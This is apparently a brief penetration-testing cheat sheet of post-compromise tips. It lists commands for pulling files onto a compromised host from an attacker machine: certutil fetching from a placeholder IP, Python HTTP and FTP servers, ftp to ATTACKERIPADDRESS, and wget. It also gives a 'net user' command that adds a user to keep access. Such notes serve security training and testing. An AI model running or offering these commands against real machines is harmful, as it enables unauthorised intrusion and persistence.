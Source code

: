 # Tips while compromised

File Transfers:

Below are tools we can use to transfer files to the compromised machine.

- Certutil

```jsx
certutil.exe -urlcache -f http://IPADDRESS/file.txt file.txt
```

- HTTP

```jsx
python -m SimpleHTTPServer 80
```

- Browser

Navigate directly to file

- FTP

```jsx
python -m pyftpdlib 21 (attacker machine)
ftp ATTACKERIPADDRESS
```

- Linux

```jsx
wget
```

Maintaining Access:

- Add a user

```jsx
net user username password /add
```